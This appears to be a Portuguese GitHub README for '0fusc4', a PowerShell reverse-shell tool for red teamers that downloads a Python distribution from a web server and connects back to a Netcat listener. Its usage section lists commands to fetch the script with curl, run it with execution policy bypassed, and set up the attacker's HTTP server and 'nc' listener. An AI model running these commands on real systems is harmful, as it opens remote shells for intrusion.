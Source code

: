 # 0fusc4
0fusc4 é uma ferramenta desenvolvida para profissionais de Red Team e pentesters. Ela é um shell reverso, ou seja, permite estabelecer uma conexão remota entre dois sistemas, onde um atua como o servidor e o outro como o cliente. Essa ferramenta é implementada em PowerShell e utiliza um script Python para executar o shell reverso.

A funcionalidade principal do 0fusc4 envolve o estabelecimento de uma conexão com um servidor web onde está hospedado um arquivo ZIP contendo uma distribuição Python. Ao se conectar a esse servidor, o 0fusc4 realiza o download do arquivo ZIP e descompacta-o em um diretório temporário, carregando-o em memória.

Após a extração, o 0fusc4 executa o shell reverso por meio do script Python contido no powershell. Para que a comunicação seja possível, é necessário que um programa como o Netcat esteja ouvindo na máquina receptora para receber o shell reverso.

Durante a execução do shell reverso, o 0fusc4 aguarda comandos enviados pelo sistema receptor. Caso o comando recebido seja "exit", o 0fusc4 encerra a conexão com o servidor remoto e exclui os arquivos temporários baixados, mantendo apenas o script criado.

Dessa forma, o 0fusc4 possibilita a execução de um shell reverso por meio de um script Python, utilizando uma distribuição Python em memória. Essa ferramenta é útil para atividades de teste de penetração e avaliação de segurança, permitindo o acesso remoto a sistemas para realizar ações específicas, conforme necessário.

Use:

gitclone 

Servidor Windows
- curl -O "http://example.com/0fusc4.ps1"
- powershell.exe -ExecutionPolicy Bypass -File "0fusc4.ps1"

Servidor Ofensor
- python3 -m http.server 4444
- nc -lnvp 4445

![image](https://github.com/carlosalbertotuma/0fusc4/assets/13341724/eff83c3f-3887-45a1-8536-d567aa26d52d)

